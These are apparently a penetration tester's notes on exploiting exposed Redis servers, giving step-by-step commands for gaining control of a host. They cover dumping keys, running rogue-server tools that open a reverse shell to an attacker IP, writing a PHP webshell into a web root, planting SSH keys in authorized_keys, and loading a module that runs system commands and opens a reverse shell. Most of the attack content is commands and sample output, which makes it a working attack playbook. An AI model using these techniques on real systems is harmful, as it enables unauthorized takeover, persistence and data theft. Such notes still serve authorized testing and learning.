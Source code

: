 https://book.hacktricks.wiki/en/network-services-pentesting/6379-pentesting-redis.html?highlight=redis#redis-rce

Look specifically in the RCE section, there are multiple paths

First command
	`info`
		if you get `-NOAUTH Authentication required.`, you need creds

Authenticate
	`AUTH <username> <password>
	this is the standard auth mechanism but NOT always...
		dependent on redis config file

Config file 
	typically here:
	`/etc/redis/redis.config
		if exposed to this, much easier to wget the file for parsing...

There are more possible things you can try, but these are the easy wins:

#### Dumping Databases
After auth
`info`
	look at # Keyspace
`select #
`keys *`
`get <name>

#### Immediate interactive / reverse shell:
https://github.com/n0b0dyCN/redis-rogue-server
For redis versions <= 5.0.5 but I have seen it work on later versions withing 5.0.x so try it anyway
	`./redis-rogue-server.py --rhost <TARGET_IP> --lhost <ACCACKER_IP>

https://github.com/Ridter/redis-rce?tab=readme-ov-file
This is an alternative which allows for Authentication creds. 
	`exp.so` file can be reused from the 1st rogue server.
	`./redis-rce.py -r <victim> -L <our_ip> -a '<AUTH_pass>' -v -f <exp.so_file(take from redis rogue server)>

#### PHP Webshell:
do you have access to a webpage and know the webroot path? We can create a webshell
```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```
then just visit the webpage and start issuing commands


#### SSH
We can write ssh keys to user home directories that we have perms to. /var/lib/redis/.ssh or /home/redis/.ssh/ are common.
```
# SSH keygen
	ssh-keygen -r rsa

# Write public key to file
	(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > spaced_key.txt

# Import file into redis
	cat spaced_key.txt | redis-cli -h <ip> -x set ssh_key

# Save the public key to authorized_keys on redis server
	config set dir /path/to/.ssh/dir
	config set dbfilename "authorized_keys"
	save

# SSH in
	ssh -i id_rsa redis@<ip>

```

#### Load Redis Module
Are you able to upload files onto the machine? We can use this
```
Following the instructions from https://github.com/n0b0dyCN/RedisModules-ExecuteCommand, you can compile a redis module to execute arbitrary commands.
	use precompiled exp_lin.so file from here https://github.com/jas502n/Redis-RCE

Then you need some way to upload the compiled module 
	FTP, SMB, etc...

Connect to redis
	redis-cli -h <ip_address>

Load the uploaded module
	MODULE LOAD /path/to/exp_lin.so

List loaded modules to check it was correctly loaded: MODULE LIST
	MODULE LIST

Execute commands:
	127.0.0.1:6379> system.exec "id"
	"uid=0(root) gid=0(root) groups=0(root)\n"
	127.0.0.1:6379> system.exec "whoami"
	"root\n"
	127.0.0.1:6379> system.rev 127.0.0.1 9999

Unload the module whenever you want: MODULE UNLOAD mymodule
```